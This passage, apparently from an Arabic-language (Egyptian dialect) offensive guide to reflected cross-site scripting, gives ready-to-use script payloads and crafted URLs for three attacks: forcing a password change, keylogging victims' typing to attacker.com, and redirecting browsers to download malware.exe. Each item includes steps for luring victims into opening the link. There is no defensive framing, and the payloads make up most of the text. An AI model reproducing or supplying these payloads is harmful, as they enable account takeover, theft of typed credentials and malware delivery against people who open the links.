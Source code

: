 3. **تنفيذ أوامر في سياق المستخدم:**
   - **الوصف**: تستخدم الرابط عشان تنفذ أوامر زي تغيير كلمة السر أو إرسال رسايل.
   - **Payload**:
     ```html
     <script>
       var xhr = new XMLHttpRequest();
       xhr.open('POST', 'example.com/change-password', true);
       xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
       xhr.send('new_password=attacker123');
     </script>
     ```
   - **الرابط**:
     ```
     example.com/search?query=<script>var xhr=new XMLHttpRequest();xhr.open('POST','example.com/change-password',true);xhr.setRequestHeader('Content-Type','application/x-www-form-urlencoded');xhr.send('new_password=attacker123');</script>
     ```
   - **الخطوات**:
     1. ادرس API الموقع عشان تعرف الأوامر.
     2. صمم الرابط عشان ينفذ الأمر لما الضحية تفتحه.

4. **تسجيل ضربات المفاتيح (Keylogging):**
   - **الوصف**: تسجل كل اللي الضحية بتكتبه لما تفتح الرابط.
   - **Payload**:
     ```html
     <script>
       document.onkeypress = function(e) {
         new Image().src='attacker.com/log?key=' + e.key;
       };
     </script>
     ```
   - **الرابط**:
     ```
     example.com/search?query=<script>document.onkeypress=function(e){new Image().src='attacker.com/log?key='+e.key;}</script>
     ```
   - **الخطوات**:
     1. حط الرابط في مكان الضحية تفتحه.
     2. كل ما تكتب حاجة، المفاتيح هتبعت لسيرفرك.

5. **تحميل برمجيات خبيثة:**
   - **الوصف**: تخلّي المتصفح يحمل ملف خبيث لما الضحية تفتح الرابط.
   - **Payload**:
     ```html
     <script>window.location='attacker.com/malware.exe';</script>
     ```
   - **الرابط**:
     ```
     example.com/search?query=<script>window.location='attacker.com/malware.exe';</script>
     ```
   - **الخطوات**:
     1. ارفع ملف خبيث على سيرفرك.
     2. صمم الرابط عشان يحمل الملف تلقائيًا.

